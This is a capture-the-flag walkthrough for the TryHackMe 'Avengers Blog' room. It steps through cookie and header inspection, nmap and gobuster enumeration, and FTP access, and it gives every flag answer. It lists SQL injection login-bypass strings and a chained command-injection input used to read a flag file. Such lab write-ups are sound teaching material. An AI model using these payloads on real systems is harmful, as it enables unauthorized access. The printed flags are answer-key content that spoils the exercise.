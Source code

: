 # Avengers Blog Wlakthrough
### Link
- https://tryhackme.com/room/avengers
------------------------
### Task 1 : Deploy
- Follow instructions
------------------------
### Task 2 - Cookies
- On the deployed Avengers machine you recently deployed, get the flag1 cookie value.
    - Open Web developer tools
    - If you work with Firefox
        - Select Storage
        - Cookies
        - [Avengers_Blog_2.png]https://github.com/LNB283/THM/blob/main/EASY/Avengers%20Blog/Pictures/Avengers_Blog_2.png
    - If you work with Google Chrome
        - Select Application
        - Under Storage , select Cookies
        - [Avengers_Blog_1.png]https://github.com/LNB283/THM/blob/main/EASY/Avengers%20Blog/Pictures/Avengers_Blog_1.png
- **Answer** : cookie_secret
---------------------------
### Task 3 - HTTP Header
- Look at the HTTP response headers and obtain flag 2
- Always under Developer tools
    - Firefox
        - Network tab
        - Refresh the page
        - On the left panel, select the first GET request
        - On the left panel, select the tab Header
        - Scroll down and find flag2
        - [Avengers_Blog_3.png]https://github.com/LNB283/THM/blob/main/EASY/Avengers%20Blog/Pictures/Avengers_Blog_3.png

        - Google Chrome
            - Network tab
            - On the left panel, select the first request (should be materialize by the IP)
            - On the right panel,  select Headers tab
            - Find flag 2
            - [Avengers_Blog_4.png]https://github.com/LNB283/THM/blob/main/EASY/Avengers%20Blog/Pictures/Avengers_Blog_4.png
- **Answers** : headers_are_important
---------------------------
### Task 4 - Enumeration
Look around the FTP share and read flag 3!
- Perform Nmap
    - sudo nmap -sC -sV -oN ./Avengers_Blog_Namp_result [IP]
    - [Avengers_Blog_5.png]https://github.com/LNB283/THM/blob/main/EASY/Avengers%20Blog/Pictures/Avengers_Blog_5.png
- FTP is opened. THM platform provides the access credentials: username (groot) and a password (iamgroot)
    - Log to the FTP
    - Navigate and find flag3.txt
    - Download flag3.txt
        - get flag3.txt
        - quit
    - Consult flag3.txt
        - cat flag3.txt
    - [Avengers_Blog_6.png]https://github.com/LNB283/THM/blob/main/EASY/Avengers%20Blog/Pictures/Avengers_Blog_6.png
- **Answers** : 8fc651a739befc58d450dc48e1f1fd2e
---------------------------
### Task 5 - Gobuster
- What is the directory that has an Avengers login?
- Gobuster command
    - sudo gobuster dir -u http://[IP] -w [Wordlist path]/directory-list-2.3-medium.txt
    - One interesting result: /portal (Status: 200)
    - Let's try this
- [Avengers_Blog_7.png]https://github.com/LNB283/THM/blob/main/EASY/Avengers%20Blog/Pictures/Avengers_Blog_7.png
- ** Answers ** : /portal
---------------------------
### Task 6 - SQL Injection
-  Log into the Avengers site. View the page source, how many lines of code are there?
    - Based on the indication from TryHackMe, the portal is vulnerable to SQL injection. Before to try automatic tool such as BurpSuite, let's try some basic SQL Injection
    >' or "
    >-- or #
    >' OR '1
    >' OR 1 -- -
    >" OR "" = "
    >" OR 1 = 1 -- -
    >' OR '' = '
    >' OR 1 = 1 --   (correct pattern)
    - [Avengers_Blog_8.png]https://github.com/LNB283/THM/blob/main/EASY/Avengers%20Blog/Pictures/Avengers_Blog_8.png
    - Check the source page
    - ** Answers ** : 223
---------------------------
### Task 7 - Remote code execurtion and linux
- Read the contents of flag5.txt
- Some command are authorize but not all. For example : ls , cd
    - cd ..;ls;tac flag5.txt
- [Avengers_Blog_9.png]https://github.com/LNB283/THM/blob/main/EASY/Avengers%20Blog/Pictures/Avengers_Blog_9.png
- ** Answers ** : d335e2d13f36558ba1e67969a1718af7

